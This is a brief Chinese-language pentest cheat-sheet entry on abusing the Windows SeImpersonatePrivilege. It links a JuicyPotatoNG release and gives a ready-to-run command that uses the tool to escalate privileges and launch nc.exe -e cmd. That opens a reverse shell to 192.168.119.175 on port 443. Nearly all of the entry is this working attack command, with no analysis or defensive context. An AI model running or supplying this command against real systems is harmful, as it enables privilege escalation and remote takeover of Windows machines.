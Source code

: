 # SeImpersonatePrivilege

也可以用流氓土豆ng\
下载地址

```clike
https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1


.\JuicyPotatoNG.exe -t * -p "cmd.exe" -a "/c C:\\Users\\alice\\Desktop\\nc.exe -e cmd 192.168.119.175 443" -l 443
```

‍
